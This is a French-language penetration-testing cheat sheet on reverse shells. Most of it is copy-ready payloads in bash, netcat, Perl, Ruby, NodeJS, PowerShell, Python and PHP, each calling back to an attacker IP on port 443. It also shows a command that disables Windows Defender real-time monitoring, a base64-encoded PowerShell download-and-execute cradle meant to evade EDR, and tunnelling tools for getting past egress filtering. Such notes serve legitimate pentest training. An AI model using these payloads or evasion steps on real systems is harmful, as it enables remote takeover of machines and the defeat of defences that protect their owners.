

Ce document détaille les mécanismes de **Reverse Shells** dans le cadre d'une phase d'exploitation.



## Définition

Un **reverse shell** est une technique où la machine cible initie une connexion réseau sortante vers la machine de l'attaquant. Cette méthode est privilégiée pour contourner les règles de filtrage des pare-feu qui bloquent généralement les connexions entrantes mais autorisent les flux sortants.

> [!info] Importance de la stabilisation
> Un shell brut est souvent instable. Il est nécessaire de procéder à une **Stabilisation de shell** (via `python -c 'import pty; pty.spawn("/bin/bash")'` ou `stty raw -echo`) pour bénéficier des fonctionnalités interactives comme le contrôle des jobs ou la complétion par tabulation.

> [!warning] Risque de détection
> L'exécution de one-liners complexes est fréquemment détectée par les solutions **EDR** ou **AV**. L'utilisation de ports communs comme le **443** est recommandée pour masquer le trafic dans les flux HTTPS légitimes.

## Stabilisation du shell (tty/pty)

Une fois le shell obtenu, il est impératif de le stabiliser pour permettre l'utilisation de `Ctrl+C`, la gestion des signaux et l'accès aux éditeurs interactifs comme `vi` ou `nano`.

1. **Upgrade vers PTY** :
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
2. **Configuration du terminal** :
Une fois dans le shell, appuyez sur `Ctrl+Z` pour mettre en arrière-plan, puis exécutez :
```bash
stty raw -echo; fg
```
3. **Export des variables d'environnement** :
```bash
export TERM=xterm
stty rows 40 columns 150
```
Voir la note associée : **Stabilisation de shell**.

## Netcat Listener

La machine attaquante doit être configurée pour écouter sur un port spécifique avant l'exécution du payload sur la cible.

```bash
sudo nc -lvnp 443
```

* `-l` : mode écoute
* `-v` : verbose
* `-n` : pas de résolution DNS
* `-p` : spécifie le port d'écoute

## Reverse Shell via Netcat (sans bash)

Si `/bin/bash` est restreint ou absent, on peut utiliser les capacités natives de `nc` ou `ncat` pour rediriger les flux.

```bash
# Utilisation d'un pipe nommé
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f
```

## Reverse Shell Bash

La redirection des descripteurs de fichiers permet d'envoyer le flux d'entrée/sortie vers une socket TCP.

```bash
bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

## Reverse Shell via Perl/Ruby/NodeJS

Lorsque les interpréteurs standards sont disponibles, ces alternatives sont souvent moins surveillées que Bash.

**Perl** :
```perl
perl -e 'use Socket;$i="10.10.14.15";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Ruby** :
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.14.15",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

**NodeJS** :
```javascript
(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(443,"10.10.14.15",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();
```

## Reverse Shell PowerShell

Le payload suivant utilise les classes .NET pour établir une connexion TCP et rediriger les flux vers une instance de **PowerShell**.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

> [!danger] Prérequis administrateur
> La désactivation de la protection en temps réel nécessite des privilèges élevés sur le système cible.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Encodage/Obfuscation

Pour contourner les signatures statiques des EDR, l'encodage est une étape clé.

* **Base64 (PowerShell)** :
```powershell
$cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.15/shell.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encoded
```

Voir la note associée : **Evasion AV**.

## Reverse Shell Python

Utilisation du module **socket** pour rediriger les flux vers un interpréteur shell.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse Shell PHP

Exploitation via la fonction **fsockopen** pour initier la connexion.

```php
php -r '$sock=fsockopen("10.10.14.15",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Gestion des firewalls/Egress filtering

Si les ports standards sont bloqués, il est nécessaire d'analyser les règles de filtrage sortant.

* **Utilisation de ports autorisés** : Tester les ports 80, 443, 53 (DNS), 8080.
* **DNS Exfiltration** : Si seul le trafic DNS est autorisé, utiliser des outils comme `dnscat2` ou `iodine`.
* **HTTP Tunneling** : Utiliser des outils comme `Chisel` ou `reGeorg` pour encapsuler le trafic dans des requêtes HTTP/S.

## Outils de génération

Les outils suivants permettent d'automatiser la création de payloads :

* **revshells.com**
* **pentestmonkey.net**

## Tableau comparatif

| Type de shell | Sens de la connexion | Pare-feu côté cible | Utilisation fréquente |
| :--- | :--- | :--- | :--- |
| Bind Shell | Attaquant ➡️ Cible | Bloqué généralement | Rare |
| Reverse Shell | Cible ➡️ Attaquant | Moins surveillé | Très courant |

Ces techniques s'inscrivent dans les phases de **Post-Exploitation Windows** et **Post-Exploitation Linux**. Pour des scénarios avancés, se référer aux notes sur l'**Evasion AV**.